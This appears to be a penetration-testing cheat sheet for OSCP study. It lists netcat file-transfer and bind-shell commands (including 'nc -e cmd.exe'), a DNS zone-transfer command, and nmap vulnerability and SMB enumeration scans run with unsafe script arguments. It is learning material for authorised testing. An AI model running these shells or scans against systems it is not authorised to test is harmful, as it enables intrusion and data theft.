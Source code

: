 
# Tips
<b>Enable service on every reboot:</b>

	update-rc.d <[SERVICE]> enable

<b>Extract link from html page:</b>

	cat index.html | grep "href=" | cut -d "/" -f3| grep "<[DOMAIN]>" | cut -d '"' -f1 | sort -u

	https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_dark_2022_11.svg
	
	https://www.sneakymonkey.net/2021/04/15/oscp-2020-tips/
	
# Netcat
<b>File transfer (client):</b>

	nc -nlvp <[PORT]> > <[FILE]>

<b>File transfer (server):</b>

	nc -nv <[IP]> <[PORT]> < <[FILE_TO_SEND]>

# Bind vs Reverse Shell

<img src="https://raw.github.com/SynAckPwn23/Go-For-OSCP/master/Uploads/img/Bind_Reverse_shell.png" width="500"/>

<b>Bind Shell:</b>

Bob needs Alice's help. Bob set up a listener on port 4444 with -e parameter:

	(BOB): nc -nlvp <[PORT]> -e cmd.exe

	(ALICE): nc -nv <[BOB_IP]> <[PORT]>

# Zone Transfer

	dnsrecon -t axfr -d <[DOMAIN]>
	
# Nmap
	nmap -sS -sV -A -O --script="*-vuln-*" --script-args=unsafe=1 <[IP]>

# SMB

	nbtscan <[SUBNET]>

	nmap -p139,445 --script smb-enum-users <[SUBNET]>

	nmap -p139,445 --script=smb-vuln-* --script-args=unsafe=1 <[SUBNET]>

	enum4linux

